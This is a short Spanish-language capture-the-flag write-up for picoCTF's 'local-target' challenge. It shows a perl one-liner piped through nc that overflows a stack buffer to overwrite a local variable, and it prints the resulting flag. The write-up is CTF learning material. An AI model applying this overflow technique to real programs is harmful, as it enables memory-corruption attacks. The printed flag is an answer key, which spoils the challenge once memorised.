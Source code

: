 ## Descripcion
Smash the stack

The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using: `nc saturn.picoctf.net 54207`

## Pistas

## Solucion

```
jt@jt-VirtualBox:~/Desktop/repos/files/P3/picker$ (perl -e 'print "A"x24 . "\x41";'; echo) | nc saturn.picoctf.net 54207
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

```
## bandera
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

## Notas adicionales 

## Referencias